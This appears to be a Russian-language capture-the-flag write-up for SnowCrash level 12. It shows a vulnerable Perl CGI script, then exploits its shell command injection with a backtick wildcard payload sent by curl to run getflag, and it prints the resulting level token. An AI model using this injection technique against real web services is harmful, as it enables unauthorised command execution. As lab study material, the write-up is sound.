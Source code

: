 ```bash
level12@SnowCrash:~$ cat ./level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Приложение запущено на localhost:4646, которое ожидает два параметра x и y.
В sub t каталог меняется на tmp и далее выполняется egrep. Попробуем выполнить getflag в этой конструкции. (сервер запущен от flag12)

Аргумент x проходит через цепочку изменений:
- `$xx =~ tr/a-z/A-Z/`: переводим все символы в UPPERCASE
- `$xx =~ s/\s.*//`: удалить все после пробела

Поэтому мы не можем просто использовать -`:4646/level12.pl?x=getflag>/tmp/flag`

```bash
level12@SnowCrash:~$ cat /tmp/GETFLAG
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
level12@SnowCrash:~$ curl 'localhost:4646?x=`/*/GETFLAG`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Этот токен подойдет к level13
